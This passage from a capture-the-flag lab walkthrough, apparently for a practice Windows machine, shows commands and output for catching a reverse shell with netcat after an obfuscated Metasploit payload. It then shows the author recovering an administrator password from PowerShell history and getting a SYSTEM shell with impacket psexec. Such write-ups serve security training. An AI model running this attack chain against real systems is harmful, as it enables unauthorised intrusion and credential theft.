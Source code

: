 So as we can see above, some of our var names were obfuscated and also our IP address was encoded with base64. When running now the exploit from metasploit we can see now a hit on our netcat session:

```shell-session
$nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.10.14.167] from (UNKNOWN) [10.10.10.27] 49678

whoami
archetype\sql_svc
```

As we now have a shell we can start by going through the list of priviledge escalation, having a look into the check list in https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#system-info, and we have a hit when trying to check some command history:

```shell-session
pwd
C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline
dir
ConsoleHost_history.txt
type ConsoleHost_history.txt
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!! exit
```

We can now use a tool to run a remote powershell session (https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/psexec.py) using our newly found credentials:

```shell-session
$python3 psexec.py administrator@10.10.10.27
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password:
[*] Requesting shares on 10.10.10.27.....
[*] Found writable share ADMIN$
[*] Uploading file PtMMrPNw.exe
[*] Opening SVCManager on 10.10.10.27.....
[*] Creating service SGjW on 10.10.10.27.....
[*] Starting service SGjW.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>


C:\Windows\system32>
C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>
```

As we now have an admin shell on this machine, we can then look around for the flags. We could found them on the "Desktop" folder of the admin:
